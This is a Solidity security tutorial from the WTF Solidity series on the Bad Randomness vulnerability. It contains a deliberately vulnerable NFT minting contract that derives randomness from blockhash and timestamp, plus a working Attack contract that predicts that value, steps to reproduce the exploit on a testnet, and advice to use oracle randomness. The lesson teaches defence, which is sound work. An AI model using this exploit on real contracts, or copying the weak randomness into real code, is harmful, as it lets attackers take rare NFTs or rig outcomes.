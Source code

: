```yaml
---
title: S07. Bad Randomness
tags:
  - solidity
  - security
  - random
---
```


# WTF Solidity S07. Bad Randomness

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss the Bad Randomness vulnerability in smart contracts and methods to prevent. This vulnerability is commonly found in NFT and GameFi projects, including Meebits, Loots, Wolf Game, etc.

## Pseudorandom Numbers

Many applications on Ethereum require the use of random numbers, such as randomly assigning `tokenId` for NFTs, opening loot boxes, and determining outcomes in GameFi battles. However, due to the transparency and determinism of all data on Ethereum, it does not provide a built-in method for generating random numbers like other programming languages do with `random()`. As a result, many projects have to rely on on-chain pseudorandom number generation methods, such as `blockhash()` and `keccak256()`.

Bad Randomness vulnerability: Attackers can pre-calculate the results of these pseudorandom numbers, allowing them to achieve their desired outcomes, such as minting any rare NFT they want instead of a random selection. For more information, you can read [WTF Solidity 39: Pseudo-random Numbers](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

![](./img/S07-1.png)

## Bad Randomness Example

Now let's learn about an NFT contract with the Bad Randomness vulnerability: BadRandomness.sol.

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // Constructor, initializes the name and symbol of the NFT collection
    constructor() ERC721("", ""){}

    // Mint function: can only mint when the input luckyNumber is equal to the random number
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

It has a main minting function called `luckyMint()`, where users input a number between `0-99`. If the input number matches the pseudorandom number `randomNumber` generated on the blockchain, the user can mint a lucky NFT. The pseudorandom number is claimed to be generated using `blockhash` and `block.timestamp`. The vulnerability lies in the fact that users can perfectly predict the generated random number and mint NFTs.

Now let's write an attack contract called `Attack.sol`.

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Pre-calculate the random number
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Attack using the luckyNumber
        nftAddr.luckyMint(luckyNumber);
    }
}
```

The parameter in the attack function `attackMint()` is the address of the `BadRandomness` contract. In it, we calculate the random number `luckyNumber` and pass it as a parameter to the `luckyMint()` function to complete the attack. Since `attackMint()` and `luckyMint()` are called in the same block, the `blockhash` and `block.timestamp` are the same, resulting in the same random number generated using them.

## `Remix` Reproduce

Since the Remix VM does not support the `blockhash` function, you need to deploy the contract to an Ethereum testnet for reproduction.

1. Deploy the `BadRandomness` contract.

2. Deploy the `Attack` contract.

3. Pass the address of the `BadRandomness` contract as a parameter to the `attackMint()` function of the `Attack` contract and call it to complete the attack.

4. Call the `balanceOf` function of the `BadRandomness` contract to check the NFT balance of the `Attack` contract and confirm the success of the attack.

## How to Prevent

To prevent such vulnerabilities, we often use off-chain random numbers provided by oracle projects, such as Chainlink VRF. These random numbers are generated off-chain and then uploaded to the blockchain, ensuring that the numbers are unpredictable. For more information, you can read [WTF Solidity 39: Pseudo-random Numbers](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

## Summary

In this lesson, we introduced the Bad Randomness vulnerability and discussed a simple method to prevent it: using off-chain random numbers provided by oracle projects. NFT and GameFi projects should avoid using on-chain pseudorandom numbers for lotteries to prevent exploitation by hackers.

